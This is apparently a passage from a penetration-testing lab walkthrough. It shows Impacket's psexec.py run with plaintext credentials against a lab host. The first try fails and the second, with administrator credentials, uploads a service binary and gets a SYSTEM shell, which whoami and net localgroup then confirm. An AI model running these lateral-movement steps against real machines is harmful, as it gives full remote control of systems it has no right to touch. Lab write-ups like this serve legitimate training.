 `psexec.py sysadmin:princess@10.4.27.105`:
```
Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.4.27.105.....
[-] share 'admin' is not writable. ←
[-] share 'ADMIN$' is not writable.
[-] share 'C' is not writable.
[-] share 'C$' is not writable.
[*] Found writable share public
[*] Uploading file bDrNAFdf.exe
[*] Opening SVCManager on 10.4.27.105.....
[-] Error opening SVCManager on 10.4.27.105..... ←
[-] Error performing the installation, cleaning up: Unable to open SVCManager
```

_The first attempt failed due to lack of permissions. Now try using the `administrator` credentials, which should have higher privileges._

`psexec.py administrator:superman@10.4.27.105`:
```
Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.4.27.105.....
[*] Found writable share admin ←
[*] Uploading file qCxGcTRY.exe ←
[*] Opening SVCManager on 10.4.27.105.....
[*] Creating service hBUD on 10.4.27.105..... ←
[*] Starting service hBUD.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.
```

<span style="color: #64b5f6;">**Target (victim) machine**</span>.

_Check the current user context on the target machine to confirm that the shell is running with `NT AUTHORITY\SYSTEM` privileges, indicating full control over the machine._

`whoami`:
```
nt authority\system ←
```

_Confirm the privileges of the `administrator` account, verifying that it is a member of the Administrators group, which grants complete control over the system._

`net localgroup Administrators`:
```
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator ←
The command completed successfully.
```
